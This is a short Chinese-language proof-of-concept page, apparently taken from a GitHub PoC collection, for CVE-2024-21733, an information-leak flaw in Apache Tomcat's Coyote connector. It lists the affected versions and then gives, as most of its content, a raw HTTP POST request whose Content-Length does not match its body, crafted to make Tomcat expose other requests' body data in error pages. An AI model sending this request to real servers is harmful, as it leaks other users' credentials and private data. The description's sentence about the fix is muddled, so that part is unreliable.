 # CVE-2024-21733

>Apache Tomcat 是一个开源 Java Servlet 容器和 Web 服务器，用于运行 Java 应用程序和动态网页。

## 来源

[https://github.com/wy876/POC](https://github.com/wy876/POC/blob/main/Apache%20Tomcat%E5%AD%98%E5%9C%A8%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E(%20CVE-2024-21733).md)

## 简介

Coyote 是 Tomcat 的连接器，处理来自客户端的请求并将它们传递Tomcat 引擎进行处理。攻击者可以通过构造特定请求，在异常页面中输出其他请求的body 数据,修复版本中通过增加 finally 代码块,保证默认会重设缓冲区 position 和 limit 到一致的状态，从而造成信息泄露。


## 影响版本
```
从8.5.7到8.5.63
9.0.0-M11到9.0.43
```


## poc
```
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

![image](https://github.com/wy876/POC/assets/139549762/15933e83-bb51-4d91-ba49-c31ab8d27cdb)
